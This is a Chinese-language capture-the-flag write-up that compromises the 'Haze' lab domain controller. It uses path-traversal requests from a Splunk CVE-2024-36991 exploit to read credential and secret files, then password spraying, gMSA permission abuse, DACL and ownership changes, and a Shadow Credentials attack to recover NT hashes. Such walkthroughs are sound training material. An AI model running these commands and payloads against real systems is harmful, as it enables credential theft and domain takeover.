## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Hard |

## Nmap

```
[root@kali] /home/kali  
❯ nmap Haze.htb -sV -A                      

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos 
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
|_ssl-date: TLS randomness does not represent time
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
8000/tcp open  http          Splunkd httpd
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://Haze.htb:8000/en-US/account/login?return_to=%2Fen-US%2F
|_http-server-header: Splunkd
| http-robots.txt: 1 disallowed entry 
|_/
8088/tcp open  ssl/http      Splunkd httpd
|_http-server-header: Splunkd
|_http-title: 404 Not Found
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2025-03-05T07:29:08
|_Not valid after:  2028-03-04T07:29:08
| http-robots.txt: 1 disallowed entry 
|_/
8089/tcp open  ssl/http      Splunkd httpd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2025-03-05T07:29:08
|_Not valid after:  2028-03-04T07:29:08
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
```

**dc01.haze.htb**添加到**/etc/hosts**

## CVE-2024-36991

在8089端口上能看到服务版本





```
[root@kali] /home/kali/Haze/CVE-2024-36991 (main) 
❯ python CVE-2024-36991.py -u http://haze.htb:8000/                                                                                                                                                           

                                                                        
  ______     _______     ____   ___ ____  _  _        _____  __   ___   ___  _                                                                                                                                  
 / ___\ \   / | ____|   |___ \ / _ |___ \| || |      |___ / / /_ / _ \ / _ \/ |                                                                                                                                 
| |    \ \ / /|  _| _____ __) | | | |__) | || |_ _____ |_ \| '_ | (_) | (_) | |                                                                                                                                 
| |___  \ V / | |__|_____/ __/| |_| / __/|__   _|________) | (_) \__, |\__, | |                                                                                                                                 
 \____|  \_/  |_____|   |_____|\___|_____|  |_|      |____/ \___/  /_/   /_/|_|                                                                                                                                 
                                                                                                                                                                                                                
-> POC CVE-2024-36991. This exploit will attempt to read Splunk /etc/passwd file.                                                                                                                               
-> By x.com/MohamedNab1l
-> Use Wisely.

[INFO] Log directory created: logs
[INFO] Testing single target: http://haze.htb:8000/
[VLUN] Vulnerable: http://haze.htb:8000/
:admin:$6$Ak3m7.aHgb/NOQez$O7C8Ck2lg5RaXJs9FrwPr7xbJBJxMCpqIx3TG30Pvl7JSvv0pn3vtYnt8qF4WhL7hBZygwemqn7PBj5dLBm0D1::Administrator:admin:changeme@example.com:::20152
:edward:$6$3LQHFzfmlpMgxY57$Sk32K6eknpAtcT23h6igJRuM1eCe7WAfygm103cQ22/Niwp1pTCKzc0Ok1qhV25UsoUN4t7HYfoGDb4ZCv8pw1::Edward@haze.htb:user:Edward@haze.htb:::20152
:mark:$6$j4QsAJiV8mLg/bhA$Oa/l2cgCXF8Ux7xIaDe3dMW6.Qfobo0PtztrVMHZgdGa1j8423jUvMqYuqjZa/LPd.xryUwe699/8SgNC6v2H/:::user:Mark@haze.htb:::20152
:paul:$6$Y5ds8NjDLd7SzOTW$Zg/WOJxk38KtI.ci9RFl87hhWSawfpT6X.woxTvB4rduL4rDKkE.psK7eXm6TgriABAhqdCPI4P0hcB8xz0cd1:::user:paul@haze.htb:::20152
```

找到可能存在的用户

```
Edward@haze.htb
Mark@haze.htb
paul@haze.htb
```

但是密码哈希无法被破解

- [Critical Splunk Vulnerability CVE-2024-36991: Patch Now to Prevent Arbitrary File Reads](https://www.sonicwall.com/blog/critical-splunk-vulnerability-cve-2024-36991-patch-now-to-prevent-arbitrary-file-reads)



看到能成功读取文件

因此可以尝试读取**Splunk**的配置文件，可以看到默认的安装目录是

```
C:\Program Files\Splunk
```



- [Splunk目录结构及常用配置文件\_如何查看splunk的家目录-CSDN博客](https://blog.csdn.net/qq_45800977/article/details/132626110)

- [List of configuration files - Splunk Documentation](https://docs.splunk.com/Documentation/Splunk/9.4.1/Admin/Listofconfigurationfiles)

可以查看到**authentication.conf**的内容

```
GET /en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:/Program%20Files/Splunk/etc/system/local/authentication.conf HTTP/1.1
Host: haze.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

---------------------

[splunk_auth]
minPasswordLength = 8
minPasswordUppercase = 0
minPasswordLowercase = 0
minPasswordSpecial = 0
minPasswordDigit = 0

[Haze LDAP Auth]
SSLEnabled = 0
anonymous_referrals = 1
bindDN = CN=Paul Taylor,CN=Users,DC=haze,DC=htb
bindDNpassword = $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
charset = utf8
emailAttribute = mail
enableRangeRetrieval = 0
groupBaseDN = CN=Splunk_LDAP_Auth,CN=Users,DC=haze,DC=htb
groupMappingAttribute = dn
groupMemberAttribute = member
groupNameAttribute = cn
host = dc01.haze.htb
nestedGroups = 0
network_timeout = 20
pagelimit = -1
port = 389
realNameAttribute = cn
sizelimit = 1000
timelimit = 15
userBaseDN = CN=Users,DC=haze,DC=htb
userNameAttribute = samaccountname

[authentication]
authSettings = Haze LDAP Auth
authType = LDAP
```

尝试对密码进行解密

- [HurricaneLabs/splunksecrets: splunksecrets is a tool for working with Splunk secrets offline](https://github.com/HurricaneLabs/splunksecrets)

需要**splunk.secret**参数

```
GET /en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:/Program%20Files/Splunk/etc/auth/splunk.secret HTTP/1.1
Host: haze.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

---------

NfKeJCdFGKUQUqyQmnX/WM9xMn5uVF32qyiofYPHkEOGcpMsEN.lRPooJnBdEL5Gh2wm12jKEytQoxsAYA5mReU9.h0SYEwpFMDyyAuTqhnba9P2Kul0dyBizLpq6Nq5qiCTBK3UM516vzArIkZvWQLk3Bqm1YylhEfdUvaw1ngVqR1oRtg54qf4jG0X16hNDhXokoyvgb44lWcH33FrMXxMvzFKd5W3TaAUisO6rnN0xqB7cHbofaA1YV9vgD
```

得到密码



可以看到密码是正确的



目标机器开启了**5985**端口，但是这个账户登录不上去

## UserEnum

查看其他用户

```
[root@kali] /home/kali/Haze  
❯ crackmapexec smb haze.htb -u 'paul.taylor' -p 'Ld@p_Authxxxxxxxxxx' --rid-brute | grep 'SidTypeUser'                                                                                                      ⏎
SMB                      Haze.htb        445    DC01             500: HAZE\Administrator (SidTypeUser)
SMB                      Haze.htb        445    DC01             501: HAZE\Guest (SidTypeUser)
SMB                      Haze.htb        445    DC01             502: HAZE\krbtgt (SidTypeUser)
SMB                      Haze.htb        445    DC01             1000: HAZE\DC01$ (SidTypeUser)
SMB                      Haze.htb        445    DC01             1103: HAZE\paul.taylor (SidTypeUser)
SMB                      Haze.htb        445    DC01             1104: HAZE\mark.adams (SidTypeUser)
SMB                      Haze.htb        445    DC01             1105: HAZE\edward.martin (SidTypeUser)
SMB                      Haze.htb        445    DC01             1106: HAZE\alexander.green (SidTypeUser)
SMB                      Haze.htb        445    DC01             1111: HAZE\Haze-IT-Backup$ (SidTypeUser)
```

可以看到还有其他几个用户

```
mark.adams
edward.martin
alexander.green
Haze-IT-Backup$
```

尝试进行密码喷洒，确实存在密码复用的问题。

```
[root@kali] /home/kali/Haze  
❯ crackmapexec smb haze.htb -u usernames.txt -p 'Ld@p_Authxxxxxxxxxx'                                                                                                                                       ⏎
SMB         Haze.htb        445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         Haze.htb        445    DC01             [+] haze.htb\mark.adams:Ld@p_Authxxxxxxxxxx
```

## Bloodhound-1

```
[root@kali] /home/kali/Haze  
❯ bloodhound-python -u 'mark.adams' -p 'Ld@p_Authxxxxxxxxxx' -d haze.htb -dc dc01.haze.htb  -ns 10.10.xx.xx -c all  --zip 
INFO: Found AD domain: haze.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.haze.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.haze.htb
INFO: Found 8 users
INFO: Found 57 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.haze.htb
INFO: Done in 00M 50S
```

发现**mark**属于一个**GMSA**（Group Managed Service Accounts ）的管理员组


​作为**gMSA 管理员组**的成员，您拥有检索和管理组托管服务账户（gMSA）密码的权限。​如果您希望了解如何利用此权限进行攻击，以下是可能的途径：

1. **直接读取 gMSA 密码：** gMSA 的密码存储在 Active Directory 的 `msDS-ManagedPassword` 属性中，只有被授权的账户（如 gMSA 管理员组成员）才能访问。作为管理员组成员，您可以直接检索并解密该属性，获取明文密码。这使您能够以 gMSA 的身份登录或执行操作，可能获得更高的系统权限。

3. **NTLM 中继攻击：** 利用 NTLM 协议的漏洞，攻击者可以将 NTLM 身份验证请求中继到 LDAP 或 LDAPS 服务，进而访问 `msDS-ManagedPassword` 属性，获取 gMSA 密码。然而，此方法需要特定的网络条件和配置，且成功率受限。

5. **黄金 gMSA 攻击：** 如果攻击者能够访问密钥分发服务（KDS）根密钥属性，他们可以离线生成所有关联 gMSA 的密码。这被称为“黄金 gMSA”攻击，允许攻击者在不触发密码更改或访问日志的情况下，持续获取 gMSA 的密码。

## ReadGMSAPassword

尝试进行读取密码：[ReadGMSAPassword | The Hacker Recipes](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword)

```
[root@kali] /home/kali/Haze/gMSADumper (main) 
❯ python gMSADumper.py -u 'mark.adams' -p 'Ld@p_Autxxxxxxxxxxx' -d haze.htb
Users or groups who can read password for Haze-IT-Backup$:
 > Domain Admins
```

可以看到当前**mark**没有这个权限，不过**mark**属于管理员组，可以给自己加权限。

注意**gMSA**并不是一个组，而是一种特殊的账户类型！！所以在**bloodhound**里查看不到

可以用下面的命令检查 **Haze-IT-Backup$**的账户类型

```
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Get-ADServiceAccount -Identity Haze-IT-Backup$ | Select-Object Name, ObjectClass

Name           ObjectClass
---- -----------
Haze-IT-Backup msDS-GroupManagedServiceAccount
```

谁有权限查看他的密码，确实只有**Domain Admins**

```
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Get-ADServiceAccount -Identity "Haze-IT-Backup$" -Properties PrincipalsAllowedToRetrieveManagedPassword

DistinguishedName                          : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
Enabled                                    : True
Name                                       : Haze-IT-Backup
ObjectClass                                : msDS-GroupManagedServiceAccount
ObjectGUID                                 : 66f8d593-2f0b-4a56-95b4-01b326c7a780
PrincipalsAllowedToRetrieveManagedPassword : {CN=Domain Admins,CN=Users,DC=haze,DC=htb}
SamAccountName                             : Haze-IT-Backup$
SID                                        : S-1-5-21-323145914-28650650-2368316563-1111
UserPrincipalName                          :
```

毕竟**mark**是**gMSA**管理员组的，尝试修改一下可读用户呢

```
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Set-ADServiceAccount -Identity "Haze-IT-Backup$" -PrincipalsAllowedToRetrieveManagedPassword "mark.adams"

*Evil-WinRM* PS C:\Users\mark.adams\Documents> Get-ADServiceAccount -Identity "Haze-IT-Backup$" -Properties PrincipalsAllowedToRetrieveManagedPassword

DistinguishedName                          : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
Enabled                                    : True
Name                                       : Haze-IT-Backup
ObjectClass                                : msDS-GroupManagedServiceAccount
ObjectGUID                                 : 66f8d593-2f0b-4a56-95b4-01b326c7a780
PrincipalsAllowedToRetrieveManagedPassword : {CN=Mark Adams,CN=Users,DC=haze,DC=htb}
SamAccountName                             : Haze-IT-Backup$
SID                                        : S-1-5-21-323145914-28650650-2368316563-1111
UserPrincipalName                          :
```

然后再去读取，可以发现成功。这里应该是有一个定时任务，因为过一会这个用户又无法读取了



尽管拿到了哈希值，但是无法通过**5985**端口连上去

为了验证**mark.adam**确实是有写入权限的，可以执行以下命令，查看**Backup**的访问控制表

```
*Evil-WinRM* PS C:\Users\mark.adams\Documents> dsacls "CN=HAZE-IT-BACKUP,CN=MANAGED SERVICE ACCOUNTS,DC=HAZE,DC=HTB"
```



- [ms-DS-GroupMSAMembership attribute - Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/adschema/a-msds-groupmsamembership)

`msDS-GroupMSAMembership` 是 **Active Directory (AD)** 中 **管理服务账户（gMSA）** 相关的一个属性。它用于 **存储可以检索 `gMSA` 密码的组**，即 **允许哪些组或对象读取** 该 **组管理服务账户（gMSA）** 的密码。

由于**mark**是**gMSA\_Managers**组的，因此可以修改这个值，从而获取到**Backup**的密码哈希。

## BloodHound-2

注意！！！！！！！

如果使用的是mark.adams进行域内搜集的话，会因为权限的问题造成部分信息缺失。  
那么最好的习惯就是，拿到一个域内用户就尝试更新bloodhound的内容。

```
[root@kali] /home/kali/Haze  
❯ bloodhound-python -u 'Haze-IT-Backup$' --hashes ':735c02cXXXXXXXXXXXXXXXXXXX' -d haze.htb -dc dc01.haze.htb  -ns 10.xx.xx.xx -c all  --zip
INFO: Found AD domain: haze.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.haze.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.haze.htb
INFO: Found 9 users
INFO: Found 57 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.haze.htb
INFO: Done in 01M 07S
```



可以看到**BACKUP**用户可以修改**SUPPORT**组的拥有者，而**SUPPORT**组可以修改**EDWARD**的密码和进行`Shadow Credential`攻击

接下来先将**Backup**设置为组拥有者

```
[root@kali] /home/kali/Haze  
❯ bloodyAD --host "10.xxx.xxx.xxx" -d "haze.htb" -u "Haze-IT-Backup$" -p ":735c0xxxxxxxxxxxxxxxxxxxx" set owner SUPPORT_SERVICES Haze-IT-Backup$
[+] Old owner S-1-5-21-323145914-28650650-2368316563-512 is now replaced by Haze-IT-Backup$ on SUPPORT_SERVICES
```

给自己加上全部权限

```
[root@kali] /home/kali/Haze  
❯ impacket-dacledit -action write -rights FullControl -principal 'Haze-IT-Backup$' -target-dn 'CN=SUPPORT_SERVICES,CN=USERS,DC=HAZE,DC=HTB' -dc-ip 10.xx.xx.xx"haze.htb/Haze-IT-Backup$" -hashes ':735c02c6xxxxxxxxxxxxxxxxxxx'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up 
[*] DACL modified successfully!
```

还要把自己加到组里面去

```
[root@kali] /home/kali/Haze/pywhisker/pywhisker (main) ⚡ 
❯ bloodyAD --host "10.xx.xx.xx" -d "haze.htb" -u "Haze-IT-Backup$" -p ":735c0XXXXXXXXXXXXXXXXXXXXXXXX" add groupMember SUPPORT_SERVICES Haze-IT-Backup$
[+] Haze-IT-Backup$ added to SUPPORT_SERVICES
```

## Shadow Credential

- [ShutdownRepo/pywhisker: Python version of the C# tool for "Shadow Credentials" attacks](https://github.com/ShutdownRepo/pywhisker)

```
[root@kali] /home/kali/Haze/pywhisker/pywhisker (main) ⚡ 
❯ python pywhisker.py -d "haze.htb" -u "Haze-IT-Backup$" -H '735c0XXXXXXXXXXXXXXXXXXXX' --target edward.martin --action add
[*] Searching for the target account
[*] Target user found: CN=Edward Martin,CN=Users,DC=haze,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: ad2dab15-1705-97ae-2a31-3e7dc76e9ae0
[*] Updating the msDS-KeyCredentialLink attribute of edward.martin
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: c00sSu5E.pfx
[+] PFX exportiert nach: c00sSu5E.pfx
[i] Passwort für PFX: nppJ5hulBJapp4MbWmei
[+] Saved PFX (#PKCS12) certificate & key at path: c00sSu5E.pfx
[*] Must be used with password: nppJ5hulBJapp4MbWmei
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

使用他提供的工具👇

- [dirkjanm/PKINITtools: Tools for Kerberos PKINIT and relaying to AD CS](https://github.com/dirkjanm/PKINITtools)

使用刚才生成的证书来请求一个**TGT**，这里的参数在上面提供了

```
[root@kali] /home/kali/Haze/pywhisker/pywhisker/PKINITtools (master) 
❯ python gettgtpkinit.py -cert-pfx ../c00sSu5E.pfx  -pfx-pass nppJ5hulBJapp4MbWmei haze.htb/edward.martin edward.ccache   
```

设置环境变量

```
[root@kali] /home/kali/Haze/pywhisker/pywhisker/PKINITtools (master) 
❯ export KRB5CCNAME=/home/kali/Haze/pywhisker/pywhisker/PKINITtools/edward.ccache 
```

然后请求nthash

```
[root@kali] /home/kali/Haze/pywhisker/pywhisker/PKINITtools (master) 
❯ python getnthash.py -key d0fe683700624e9392a976017afd89838fa7c4035c5889474a92cbdda68554b9 haze.htb/edward.martin
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
09e0b3eeb2xxxxxxxxxxxxxxxxxxxxxx
```

最后登录上去拿到User



## Privilege Escalation

注意到根目录下有个**Backup**目录，这个目录我们之前是无法进入的



下载下来之后，就是网站的备份源码，里面和实际网站内容有差别的。

这里直接查找类似密码的字符串，根据**splunk**的密码格式查找

```
[root@kali] /home/kali/Haze/splunk/Splunk  
❯ grep -rI  '\$1\$' .

./etc/system/README/server.conf.spec:* Unencrypted passwords must not begin with "$1$". This is used by
./etc/system/README/server.conf.spec:    * NOTE: Unencrypted passwords must not begin with "$1$", because this is
./etc/system/README/server.conf.spec:* Unencrypted passwords must not begin with "$1$", as Splunk software uses
./etc/system/README/server.conf.spec:* Unencrypted passwords must not begin with "$1$", as this is used by
./etc/system/README/server.conf.spec:* Unencrypted passwords must not begin with "$1$", as this is used by
./etc/system/README/server.conf.spec:* Unencrypted passwords must not begin with "$1$", as this is used by
./etc/system/README/server.conf.spec:* Unencrypted passwords must not begin with "$1$", as this is used by
./etc/system/README/indexes.conf.spec:* Unencrypted access key cannot begin with "$1$" or "$7$". These prefixes are reserved
./etc/system/README/indexes.conf.spec:* Unencrypted secret key cannot begin with "$1$" or "$7$". These prefixes are reserved
./etc/system/README/outputs.conf.example:token=$1$/fRSBT+2APNAyCB7tlcgOyLnAtqAQFC8NI4TGA2wX4JHfN5d9g==
